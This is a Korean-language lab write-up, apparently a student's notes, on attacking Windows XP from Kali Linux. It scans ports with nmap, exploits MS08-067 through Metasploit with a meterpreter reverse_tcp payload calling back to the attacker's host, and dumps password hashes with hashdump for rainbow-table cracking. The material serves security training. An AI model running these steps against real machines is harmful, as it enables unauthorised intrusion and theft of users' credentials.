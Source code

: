 # Window Xp에서 Pass the hash 공격

## 네트워크 동작확인 1
처음으로 우리가 할일은 Kali와 Window Xp가 연결되어있는지 확인하는 것이다.
이는 아래의 사진과 같이 연결 확인이 가능하다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/%EB%84%A4%ED%8A%B8%EC%9B%8C%ED%81%AC%20%EC%97%B0%EA%B2%B0%20%ED%99%95%EC%9D%B8.png)

## 네트워크 동작확인 2
원격접속에 필요한 포트들이 열렸는지 확인하기 위해 다음과 같은 방법을 통해 확인한다.

**nmap (WindowXp)**

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/%EB%84%A4%ED%8A%B8%EC%9B%8C%ED%81%AC%20%EC%97%B0%EA%B2%B0%20%ED%99%95%EC%9D%B82.png)

우리는 위 사진을 통해 원격접속에 필요한 포트들이 모두 열려있음을 알 수 있다.

## NMAP?
NMAP은 port Scanning 툴로써 Host나 Network를 Scanning할 때 아주 유용한 시스템 보안툴인과 동시에, 해커에게 강력한 해킹툴로서 사용할 수 있는 도구이다.
NMAP은 기존의 Port ScanningTool에 비해 다양한 옵션과 방화벽 안쪽의 네트워크도 스캔할 수 있는 강력한 기능이 있다.
</br>

## Window XP에서 Password 수집하기

**msfconsole 을 Kali의 명령창에 입력한다.**

이후 우리는 Window XP의 취약점인 MS08-067을 이전의 실습을 통해 알고 있다.
이를 통해 우리는 password를 얻어낼 것이다.

**search ms08-067**

**use exploit/windows/smb/ms08_067_netapi**

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/Window%20Xp%EC%97%90%EC%84%9C%20Password%EC%A0%95%EB%B3%B4%20%EC%88%98%EC%A7%91%201.png)

**set payload windows/meterpreter/reverse_tcp_allports**

**show options**

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/Window%20Xp%EC%97%90%EC%84%9C%20Password%EC%A0%95%EB%B3%B4%20%EC%88%98%EC%A7%91%202.png)

**set RHOST (WindowXp의 IP)**

**set LHOST (Kali의 IP)**

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/Window%20Xp%EC%97%90%EC%84%9C%20Password%EC%A0%95%EB%B3%B4%20%EC%88%98%EC%A7%91%203.png)

**run**

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/Window%20Xp%EC%97%90%EC%84%9C%20Password%EC%A0%95%EB%B3%B4%20%EC%88%98%EC%A7%91%204.png)

**sysinfo**

**hashdump**

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/Window%20Xp%EC%97%90%EC%84%9C%20Password%EC%A0%95%EB%B3%B4%20%EC%88%98%EC%A7%91%20%EC%99%84%EB%A3%8C.png)


### 이를 통한 공격방법은?
우리는 MS08-067을 통해  windowXp의 Password Hash를 구할 수  있게 되었다.
그렇다면 이것이 과연 무슨 역활을 하는가에 대해 생각하면 다음과 같이 이를 활용해서 공격을 할 수 있다.
그것은 바로 raindow Hashtable attack을 통해 취약점을 통해 구한 hash의 값에 맞는 원래의 Pw를 찾아내는 공격을 통해 사용자의 Password를 알아 낼 수 있다.
</br>
